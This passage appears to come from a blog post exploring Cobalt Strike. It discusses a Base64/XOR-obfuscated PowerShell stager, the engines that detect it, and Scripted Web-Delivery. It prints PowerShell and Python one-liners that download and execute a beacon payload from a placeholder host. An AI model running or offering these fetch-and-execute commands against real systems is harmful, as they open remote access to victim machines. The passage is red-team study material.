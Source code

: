 [**VirusTotal Report**](https://www.virustotal.com/gui/file/eaf823b675b9c9a0a3868c827f650f5612a2f42d34a77b1392fff4a1ccd7f990/detection)

Many more antivirus engines (32/59) detected this script than the Excel macro. Examining the code, you may notice the `[Byte[]]$var_code = [System.Convert]::FromBase64String('<VERY long Base64 string>')` line; while the *code* is relatively short, the Base64 string contained within it exceeds 350,000 characters, so I did not include the full output. Using alternative encoding is a classic malware obfuscation tactic, and I am not surprised to see it employed here.

Using, `[System.Convert]::FromBase64String()` I decoded the Base64 string, which revealed a massive set of numbers. It appears that these numbers are bitwise XORed with `35` (ASCII '#') to reconstruct the malicious commands. As shown by the VirusTotal report, this process was not complex enough to prevent widespread detection by updated AV engines.

As with the Excel macro, running this script on the victim host also established a tunnel back to Cobalt Strike.

## Special Delivery

Certain situations may present themselves in which an attacker has difficulty planting a file into the victim's environment; thus, HelpSystems has established alternative delivery methods. One such method is *Scripted Web-Delivery,* an all-in-one setup that hosts a malicious file and provides one-liners in different languages to automate fetching and executing the file on the victim host.

![Screenshot of Cobalt Strike Scripted Web-Delivery](/img/playing-with-cobalt-strike-8.webp)

Victim one-liners, given a payload of `windows/beacon_http/reverse_http`:
```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://X.X.X.X:80/a'))"
```
```python
python -c "import urllib2; exec urllib2.urlopen('http://X.X.X.X:80/a').read();"
```

Windows Defender identifies the PowerShell threat as `TrojanDropper:PowerShell/Cobacis.B`.

## More Stuff

### C Payload

Using the Payload Generator, Cobalt Strike will form a buffer array in several different languages. An example of this is shown below in C, though Java, Python, Perl, PowerShell, and more are supported as well.

```c
```